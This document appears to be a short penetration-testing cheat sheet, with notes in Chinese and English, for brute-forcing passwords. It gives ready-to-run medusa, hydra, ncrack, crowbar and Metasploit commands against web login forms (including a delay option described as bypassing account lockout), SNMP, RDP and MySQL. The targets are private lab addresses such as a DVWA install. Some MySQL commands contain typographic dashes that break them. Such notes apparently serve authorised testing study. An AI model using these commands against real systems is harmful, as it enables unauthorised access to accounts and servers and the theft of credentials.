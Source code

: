 ## web
参考
https://null-byte.wonderhowto.com/how-to/hack-like-pro-crack-online-web-form-passwords-with-thc-hydra-burp-suite-0160643/

* medusa

```
medusa -h 192.168.1.10 -u admin -P wordlist.txt -M http -m DIR:/test -T 10

medusa -d //show network protocol
```
* hydra

```
// post
hydra http-form-post -U //additional info
hydra -L <username list> -p <password list> <IP Address> <form parameters><failed login message>
hydra -L <wordlist> -P<password list> 192.168.1.10 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"

#使用成功提示爆破
hydra -l admin -P /usr/share/dirb/wordlists/small.txt 192.168.1.10 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&S=success message" -V

#-w指定间隔时间，绕过账号锁定
hydra -l admin -P /usr/share/dirb/wordlists/small.txt 192.168.1.10 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -w 10 -V

hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
```

## port 161 SNMP
```
hydra -P wordlist.txt -v 102.168.0.101 snmp
```
## 3389-RDP
```
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101

sudo apt install crowbar
//specify the protocol (-b), the target server (-s), a username (-u), //a wordlist (-C), and the number of threads (-n)
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```
## mysql crack

```
medusa  -h 192.168.1.106 –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M mysql

ncrack –v –U /root/Desktop/user.txt–P /root/Desktop/pass.txt 192.168.1.106:3306

hydra –L /root/Desktop/user.txt –P /root/Desktop/pass.txt 192.168.1.106 mysql

msf > use auxiliary/scanner/mysql/mysql_login
msf auxiliary(mysql_login) > set rhosts 192.168.1.106
msf auxiliary(mysql_login) > set user_file /root/Desktop/users.txt
msf auxiliary(mysql_login) > set pass_file /root/Desktop/password.txt
msf auxiliary(mysql_login) > set stop_on_success true
msf auxiliary(mysql_login) > run
```
